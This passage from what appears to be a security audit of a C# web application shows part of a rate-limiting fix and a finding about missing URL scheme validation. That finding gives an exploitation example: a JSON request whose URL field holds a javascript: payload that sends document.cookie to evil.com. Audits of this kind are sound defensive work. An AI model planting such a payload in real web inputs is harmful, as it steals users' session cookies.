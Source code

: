 ```csharp
    options.AddFixedWindowLimiter("global", opt =>
    {
        opt.PermitLimit = 100;
        opt.Window = TimeSpan.FromMinutes(1);
    });
});

app.UseRateLimiter();
```

**Apply to VoteController:**
```csharp
[EnableRateLimiting("voting")]
public sealed class VoteController : AppBaseController
{
    // All methods inherit rate limiting
}
```

**Priority**: HIGH

---

### 9. **Missing Input Validation on URLs**
**File**: `iteration1/Controllers/ResourceController.cs` (Line 158)
**Severity**: HIGH
**CWE**: CWE-20 (Improper Input Validation)

**Issue**: The `[Url]` validation attribute on `ResourceRequest.Url` only validates format, not content. It accepts dangerous URI schemes like `javascript:`, `data:`, and `file:` which could be used for XSS or other attacks.

**Vulnerable Code**:
```csharp
public readonly struct ResourceRequest(uint? id, string name, Uri url)
{
    [Url]  // Only validates format, not scheme!
    public Uri Url { get; } = url;
}
```

**Impact**:
- XSS via `javascript:alert(document.cookie)` URLs
- Data exfiltration via `data:` URLs
- Local file access attempts via `file:` URLs
- Users clicking malicious resource links

**Exploitation Scenario**:
```json
POST /Resource/create/1
{
  "name": "Malicious Resource",
  "url": "javascript:fetch('https://evil.com?cookie='+document.cookie)"
}
```
